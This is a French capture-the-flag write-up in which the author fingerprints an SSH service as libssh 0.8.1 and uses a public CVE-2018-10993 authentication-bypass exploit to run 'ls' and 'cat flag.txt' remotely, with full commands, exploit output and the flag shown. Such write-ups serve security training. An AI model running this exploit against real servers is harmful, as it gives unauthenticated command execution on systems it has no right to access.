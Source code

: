 ﻿* * * * *
				          Rooter - Miscellaneous
* * * * *

**Enoncé:** 51.91.120.156 30000

Notre but est de trouver le flag. Nous avons une adresse **ip** et un **port**: Essayons une connexion **netcat**: 
`$ nc 51.91.120.156 30000`
> SSH-2.0-libssh_0.8.1
> 
> Bye Bye

Nous avons une version de **ssh** et de **libssh**. Essayons de voir ce que nous avons comme vulnérabilité dessus. Une recherche google dessus nous dévoile une vulnérabilité connu du nom de **libSSH authentication bypass** et de **CVE-2018-10993**. Un exploit datant de 2018:  [Voir l'exploit...](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)
 Nous allons l'utiliser pour exploiter la faille:

`$ python3 cve-2018-10993.py -p 30000 51.91.120.156`

	     :: CVE-2018-10993 libSSH authentication bypass exploit.
	   Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
	   Mariusz B. / mgeeky '18, <mb@binary-offensive.com> 
	   v0.1
	
	[+] Connected to the target: 51.91.120.156:30000 
	[?] Obtained banner: "SSH-2.0-libssh\_0.8.1" 
	[+] Target seems to be VULNERABLE!

Nous allons ajouter les options `-c` et `-v` pour pouvoir exécuter des commandes en remote. Essayons de faire un simple directrories listing avec **ls** :

`$ python3 cve-2018-10993.py -p 30000 51.91.120.156 -v -c 'ls'`

	    :: CVE-2018-10993 libSSH authentication bypass exploit.
	  Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
	  Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
	  v0.1

	[+] Connected to the target: 51.91.120.156:30000 
	[?] Obtained banner: "SSH-2.0-libssh\_0.8.1" 
	[+] Target seems to be VULNERABLE! 
	[?] Connecting with 51.91.120.156:30000 ... 
	[+] Connected.

	$ ls 
	bin 
	boot 
	dev 
	etc 
	flag.txt 
	home 
	lib 
	lib64 
	media 
	mnt 
	opt 
	proc 
	root 
	run 
	sbin 
	srv 
	ssh_server_fork.patch 
	sys 
	tmp 
	usr 
	var

Nous observons la présence d'un fichier **flag.txt**, nous allons lire son contenu:

`$ python3 cve-2018-10993.py -p 30000 51.91.120.156 -v -c 'cat flag.txt'`

	    :: CVE-2018-10993 libSSH authentication bypass exploit.
	  Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
	  Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
	  v0.1

	[+] Connected to the target: 51.91.120.156:30000 
	[?] Obtained banner: "SSH-2.0-libssh\_0.8.1" 
	[+] Target seems to be VULNERABLE! 
	[?] Connecting with 51.91.120.156:30000 ... 
	[+] Connected.

	$ cat flag.txt 
	CTF_SSH_Exploiter 
	Socket exception: Bad file descriptor (9)

Bingo nous avons le flag: **CTF_SSH_Exploiter**

